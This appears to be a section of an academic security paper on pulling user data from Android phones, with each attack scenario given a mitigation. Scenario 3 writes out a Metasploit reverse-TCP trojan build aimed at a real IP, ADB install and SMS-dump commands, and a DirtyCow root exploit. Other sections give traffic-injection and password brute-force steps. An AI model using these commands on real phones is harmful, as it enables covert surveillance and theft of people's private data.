\subsection{Goal clarification}

In terms of Android we want to derive user data from a smartphone. This data may consist of phone contacts, SMS and other personal information, which is generally stored in the data partition. In this paper we are willing to find and apply possible methods of acquiring clear text data.

\subsection{Possible obstacles}

When it comes to data acquisition from an Android smartphone, there are several obstacles that the researcher may face. First, the device can be protected with a screen lock, which prevents the smartphone control interface function. Second, the user data storage can be encrypted, which prevents the data from being read directly with any alien interface. A combination of these two may significantly increase user data safety. 

Although the screen of an Android device may be locked and the disk may be encrypted, there still may be Android Debug Bridge (ADB) enabled, which could provide an entry point for data acquisition.

\subsection{Encryption}
\label{section:encryption}

Android Full Disk Encryption uses linux kernel module dm-crypt, AES-CBC with ESSIV:SHA256, a 16-byte Disk Encryption Key (DEK) and a 16-byte Initial Vector (IV). Memory partitions are encrypted transparently for userspace applications. The encryption information is stored in a special structure called crypto-footer. This structure is 16 KiB long, but most of this space is reserved for future use, and it may reside at the end of the encrypted partition or on a separate dedicated partition. 

Disk encryption technique was changed significantly through different Android versions. It was first introduced with Android version 3.0. Till version 5.0, the DEK was a randomly generated string, encrypted with the screen lock credentials (PIN, password or gesture pattern). Till Android version 4.4, the PBKDF2 was used to derive a key for DEK decryption. In Android version 4.4, PBKDF2 was replaced by UNIX standard scrypt function, which can be made much harder to break by increasing the memory required for each function execution without affecting user experience. An off the box attack is still possible, but it requires more resources. 

Android version 5.0 introduced mandatory use of hardware-backed key storage. This new feature has bound the DEK to another secret keeper, a special chip in the device. Before this innovation, the encryption data safety relied firstly on the screen lock protection safety against attacks on the device, which are made infeasible even for very short passwords with the help of purportedly increasing retry delays. Apart from that, the encryption data safety also relied on the physical raw data access prevention together with the screen lock password strength against off-box exhaustive search attack (bruteforce). The last option could be considered a weak side of data security, as there are numerous ways of raw encrypted data acquisition, which are extremely hard to prevent. After the raw image was obtained, it is only the screen lock password that prevents the data from being read. According to a  research~\cite{android1}, an average Android smartphone user accesses his or her device about 85 times a day, which makes it extremely inconvenient to use a screen lock password strong enough to prevent off-box bruteforce attack. The hardware-bound key manager introduced in Android L solved this big problem of weak screen lock key: it is not enough to guess a (most probably weak) screen lock key, as the hardware key is needed to obtain the DEK as well. This new feature wholly relies on the hardware stored key security. A special hardware is used, which takes responsibility for key storage, and the Trusted Execution Environment (TEE) isolates all the operations requiring that key from the Android operating system, even including the Linux kernel. 

The new Android 5.0 key storage algorithm is well documented in the official android security page~\cite{android2}. From that document we know that an RSA signature is involved in the key derivation process, which makes the resulting key almost unpredictable without knowing the hardware-bound key, and the 16-byte DEK with 16-byte IV bruteforce infeasible. Also, another disk encryption feature was introduced: now every device coming with installed Android L has its data storage encrypted by default with a publicly known default password. This obviously cannot prevent from data access through smartphone user interface, like touchscreen and buttons, but prevents user data from being read and non-randomly modified through any side access interface (not involving asking the TEE for encryption key).



\subsection{Screen Lock}

The screen locking feature can be implemented with the help of these techniques:

\begin{itemize}
\item{}
PIN
\item{}
Password
\item{}
Drawing pattern
\item{}
Fingerprint
\item{}
Facial recognition
\item{}
Voice recognition
\item{}
NFC tag
\end{itemize}

The first three lock types are almost the only methods most people use to protect their device~\cite{android3}. All the three methods use the key verification data stored in /data/system directory in the MD5 hashed form. The first two, PIN and password, are made from the hashed user input string, and the last one is produced by hashing a sequence of bytes, each of which represents a lock matrix node, in the sequence the user connected them. The first row nodes are assigned bytes 0x00, 0x01, 0x02 and so forth, then the numeration continues to the second row and so on.

The maximum gesture pattern variants number 140704 is achieved if using 8 or 9 nodes in the path. The overall amount of available paths is 389488~\cite{android7}. It is clear that a 4-digit PIN code and a 3x3 gesture pattern can be easily broken by exhaustive search attack. Also, as it was stated before, a strong enough against bruteforce attacks password is very unlikely to be chosen by average smartphone user.


\subsection{Possible scenarios}

\subsubsection{Scenario 0: No lock screen}
In this case no attack is required because adversary can do everything he wants and extract any data from a smartphone.


\textsl{Requirements:} no lock screen is used on smartphone.

\textsl{Mitigation:} set up a lock screen.

\subsubsection{Scenario 1: Gesture pattern is visible}

Sometimes fingers leave marks on the screen. If a device’s owner uses gestures screen lock, we are able to see the pattern left on the screen. In this research we were able to restore the pattern on a tested device. This is called a smudge attack. Figure \ref{pic:smudge} shows an example.

\begin{figure}[!ht]
\centering

\includegraphics[width=\linewidth]{img/smudge-attack.png}
\caption{Smudge attack}
\label{pic:smudge}
\end{figure}


\textsl{Requirements:} pattern must be clearly seen on the screen.

\textsl{Mitigation:} use PIN or password instead of gestures or just clear your screen every time you lock the phone.


\subsubsection{Scenario 2: Naive user}
In this case social engineering can be used to trick a user into visiting a malicious website and install a trojan application. A major disadvantage of this technique is that no offline attacks are possible because the user has to access his phone. In this research we were able to modify network traffic from a legitimate website and insert javascript that prompts a user to install a trojan application that was downloaded automatically.
An example below shows how the user can be tricked via javascript alert (Figure \ref{pic:social}). After pressing OK button a malicious application is being automatically downloaded. All user has to do is to install it.

\begin{figure}[!ht]
\centering

\includegraphics[width=\linewidth]{img/SE-screen.png}
\caption{Using social engineering to install a malicious application.}
\label{pic:social}
\end{figure}


We also tried to gain shell access via Stagefright vulnerability but the attempts were unsuccessful since all publicly available exploits work only on particular Android versions..
\textsl{Requirements:} user has to be tricked, user has to be online, e.g. web surfing.

\textsl{Mitigation:} do not visit unknown links, install applications only from Play Market.


\subsubsection{Scenario 3: USB debugging is enabled}

Enabling USB debugging allows to send commands to a smartphone using Android Debug Bridge (ADB) from a computer.  All Android versions prior to 5.0 do not require any authentication of a computer that uses ADB. Android versions starting from 5.0 and higher require the user to unlock his phone and add the public key of ADB.

ADB in Android versions prior to 5.0 allows anyone to install applications with arbitrary permissions. We were able to install a trojan application that collects all data including phone contacts, SMS and other personal information and sends it to Command and Control  (C\&C) server. The advantage of this approach is that if user retrieves his smartphone back we will still be able to control his phone.

In order to create a trojan application we may use Metasploit framework. It allows us to choose the payload that will connect to our server, i.e. it is a reverse TCP shell. After that we need to sign the application so the smartphone could accept it. This can be done using the following commands:

\begin{lstlisting}
$ msfvenom -p android/meterpreter/reverse_tcp  LHOST=188.130.155.36 LPORT=9999 R > evil.apk
$ keytool -genkey -v -keystore my-release-key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias app
$ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.jks evil.apk app
\end{lstlisting}
In order to install it on the smartphone we have to execute the following commands:
\begin{lstlisting}
$ adb install evil.apk
$ adb shell
shell@android:/ $ am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
\end{lstlisting}

After opening meterpreter session we are able to control the smartphone, for example, dump all SMS:

\begin{lstlisting}
meterpreter > dump_sms
[*] Fetching 1273 sms messages
[*] SMS messages saved to: sms_dump_20161128114216.txt
\end{lstlisting}

In case of rooted smartphone and enabled debugging we were able to make a full memory dump. If the device is not rooted, we can escalate privileges via such attacks as DirtyCow and gain root access.

In our research we tested the publicly available~\cite{android4} DirtyCow exploit to elevate shell privileges to root on a smartphone to acquire raw dumps of user data partitions. 

The DirtyCow exploit lets an attacker to perform writing to memory regions available for reading only. In order to use this vulnerability to gain root privileges, the exploit uses system /system/bin/run-as binary, which has a setuid bit set and owned by root:

\begin{lstlisting}
$ adb shell
$  ls -l /system/bin/run-as
-rwxr-xr-x root     shell        9432 2008-08-01 15:00 run-as
\end{lstlisting}

We have modified the code provided with the proof-of-concept (PoC) to drop a shell in case of successful privilege escalation:

\begin{lstlisting}
printf("uid %d\n", getuid());
system("sh");
\end{lstlisting}

Then we pushed a busybox, the exploit and payload binaries to a user-writeable directory

\begin{lstlisting}
adb push busybox /data/local/tmp/
adb push dirtycow /data/local/tmp/
adb push evil /data/local/tmp/
\end{lstlisting}

And then we run the exploit:

\begin{lstlisting}
$ /data/local/tmp/dirtycow /system/bin/run-as /data/local/tmp/evil
$ /system/bin/run-as
/system/bin/run-as
running as uid 2000
uid 0
# id
uid=0(root) gid=0(root) context=u:r:init_shell:s0
# /data/local/tmp/busybox pstree 16852
sh---run-as---sh
\end{lstlisting}

After that we could access all raw data on partitions with help of dd tool of the busybox we used.


\textsl{Requirements:} USB debugging enabled, Android version below 5.0. If the smartphone is rooted, it is possible to make a full memory dump.

\textsl{Mitigation:} disable USB debugging, use latest Android version.

\subsubsection{Scenario 4: Unlocked bootloader}

The process of unlocking the bootloader involves erasing data partition (wipe) and filling it with zeros. We tried to recover data after wipe hoping that it is possible to restore but it turned out that all tested models had filled data partition with zeros.

If bootloader is already unlocked, we are able to flash custom recovery image without wiping the data partition. After that it is possible to make a full memory dump. If the device is encrypted and its version is below 5.0, it is possible to perform an offline attack and recover the key used for decryption.

Here is an example of how we can install arbitrary updates to a smartphone with a custom recovery (Figure \ref{pic:bad_upd}).

\begin{figure}[!ht]
\centering
\includegraphics[width=\linewidth]{img/recovery2.png}
\caption{Installing a malicious update}
\label{pic:bad_upd}
\end{figure}


\textsl{Requirements:} unlocked bootloader. If the smartphone is encrypted, it is possible to make a full memory dump and bruteforce the key in case its version is below 5.0.

\textsl{Mitigation:} unlock your bootloader only if needed, use latest Android version. It is relatively safe to unlock bootloader if the smartphone is encrypted and version of Android is higher than 5.0.


\subsubsection{Scenario 5: Manufacturer private keys}

We can consider the case in which the phone manufacturer has malicious intentions or the adversary has stolen private keys from manufacturer. In this case it is possible to install malicious updates from recovery mode and perform any action with the smartphone. If the smartphone is encrypted, the attacker can gain benefit from these updates only after entering correct password for decryption. Therefore, in case of encryption this attack is applicable if the user takes his smartphone back and continues to use it.



\textsl{Requirements:} private keys from manufacturer.

\textsl{Mitigation:} encryption partially solves the problem.


\subsubsection{Scenario 6: 0-day vulnerability}

We should not forget that there can be future or unknown vulnerabilities.


\textsl{Requirements:} unknown.

\textsl{Mitigation:} install latest updates.

\subsubsection{Scenario 7: Attacker uses JTAG or chip-off technique}

Skilled adversary can use JTAG or chip-off technique to gain direct access to physical memory thus creating a full memory dump. If the device is encrypted and Android version is below 5.0, adversary can bruteforce the key.


\textsl{Requirements:} skill for JTAG usage, datasheets.

\textsl{Mitigation:} full-disk encryption, device needs to have TrustZone in its processor and Android version higher than 5.0.


\subsubsection{Scenario 8: Attacker has access to user’s Google account}

If the attacker has user’s Google account password, he can easily reset screen lock key and gain access to data. If the attacker only has access to user’s account without knowing the password, he can export phone contacts, mail, previous geographical locations and other personal information. This information does not include SMS, phone calls history,  correspondence from messengers and other application related data.

Figure \ref{pic:location} shows device owner’s location for a particular day (two red dots).

\begin{figure}[!ht]
\centering

\includegraphics[width=\linewidth]{img/location.png}
\caption{Device owner location}
\label{pic:location}
\end{figure}

\textsl{Requirements:} password or access to user’s Google account.

\textsl{Mitigation:} two-factor authentication, strong passwords.


\subsubsection{Scenario 9: Smartphone is encrypted}

An encrypted user data partition adds another security layer that can make data acquisition harder, or even prevent it at all. As described above in the \ref{section:encryption} section, Android versions prior to 5.0 have their FDE vulnerable against off-the-box attacks, and it is enough to possess the partition dump and crypto-footer. But since version 5.0, an attacker has to acquire the key used to encrypt the DEK from the Keymaster somehow in addition to the dumps. The TEE is very vendor-specific, and the possible methods of key retrieval will probably be too. 

In our research, we tested the ability of finding the password used to encrypt the DEK on an encrypted Android 4.0.4 device. We supposed a scenario in which an attacker used one of the methods described above to get the device partitions dump, but the data partition is encrypted and neither key nor password are known. 

First, we used the Android documentation~\cite{android2} and the encryption system source code~\cite{android5} to find the exact format, in which the crypto-footer is stored for this Android version. With knowledge of the magic number we were able to find the crypto footer structure, and knowing the exact format, we parsed and got the data needed to derive the DEK from user password. 
These commands below allow us to extract and parse crypto-footer from partition dump of the smartphone.

\begin{lstlisting}
$ dd if=mmcblk0p5dump of=/data/local/tmp/crypto-footer bs=1024 skip=2910288 count=16
$ python
footer = open("crypto-footer","r").read()
footer = struct.unpack('< L H H L L L L L L L 64s L 48s 16s', footer[:168])
print footer[6] # key size
>>16
print footer[13][:16] # encrypted key
>>b'\x8f\xb26\xbdB\xc8Xp+ST\xb8\x7f\xe6\x89\x8d'
print footer[14] # PBKDF2 salt
>>b"\xadfd'-\xd2a\x17\xd3\xcd|i\x01\xd2y\xf5"
\end{lstlisting}

As the crypto footer does not provide any information to check the password, we needed several first bytes of encrypted partition to decrypt to test each password candidate. As the encrypted partition is known to contain an ext4 filesystem, an attacker can look for the specific bytes typical for it, and when the bytes are found at their place, the password candidate is probably right.

We used a key bruteforce python script~\cite{android6} to find the key, and it managed to find a 5-digit password in less than 15 minutes. As the password for DEK protection is the same as the screen lock password, we also gained the access to the phone via touchscreen.

\textsl{Requirements:} encrypted partition and crypto-footer dump, hardware-backed keys not used or known to attacker.
\textsl{Mitigation:} prevent raw memory access, use hardware-backed key to encrypt DEK.


In Appendix \ref{section:andro-threat} we summarized our knowledge about Android and created a simplified threat model. This model does not cover all possible scenarios but can be used as a convenient reference.



